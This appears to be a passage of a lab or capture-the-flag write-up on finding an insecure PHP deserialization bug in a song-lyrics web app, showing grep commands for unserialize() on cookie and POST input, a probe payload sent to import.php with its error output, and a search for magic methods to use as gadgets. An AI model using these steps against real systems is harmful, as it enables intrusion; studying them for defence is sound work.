 #### 1. Normal usage of the app

HTTP POST request on `/add_song.php` produces log under:
```
# cat /tmp/logs/song_views
Song Gee by <i>Girls' Generation</i> viewed.
Song Bubble Pop by <i>Hyuna</i> viewed.
Song a by <i>b</i> viewed.
```

The `/export.php` will export PHP serialized data such as:
- `YTozOntpOjA7aToxO2k6MTtpOjI7aToyO2k6ODt9` (base64 encoded)
- `a:3:{i:0;i:1;i:1;i:2;i:2;i:8;}` (decoded)

The `/import.php` page allows importing the PHP array as base64 encoded data.


#### 2.  Look for `unserialize()` usage

```
# grep -rn 'unserialize' .
./import.php:5:    $data = unserialize(base64_decode($_POST['data']));
./classes.php:156:            $oldlyrics = unserialize(base64_decode($_COOKIE['lyrics']));
./classes.php:165:            return unserialize(base64_decode($_COOKIE['lyrics']));
./classes.php:206:                $r [] = unserialize(base64_decode($row[0]));
```
Note:
- `$_COOKIE['lyrics']` (user input)
- `$_POST['data']` (user input)


#### 3. Find the unsafe deserialization bug

```
# target='https://webdev.local'
# payload='O:3:"PDO":0:{}'
# http --verify=no -f $target/import.php data=`echo -n "$payload" | base64 -w0` | grep -i error | sort -u
<font size='1'><table class='xdebug-error xe-uncaught-exception' dir='ltr' border='1' cellspacing='0' cellpadding='1'>
<tr><th align='left' bgcolor='#f57900' colspan="5"><span style='background-color: #cc0000; color: #fce94f; 
font-size: x-large;'>( ! )</span> Fatal error: Uncaught PDOException: You cannot serialize or unserialize 
PDO instances in /var/www/webroot/public/import.php on line <i>5</i></th></tr>
```
Note: this PoC will throw a PDO exception because this class is not serializable in PHP


#### 4. Find magic methods in useful classes

Magic methods are the triggering functions for the injected PHP objects.

```
# grep -rnE 'function __.*\(' . | grep -v '__construct'
./classes.php:99:    function __toString()
./classes.php:126:    function __toString()
./classes.php:132:    function __destruct()
./classes.php:225:    function __destruct()
```
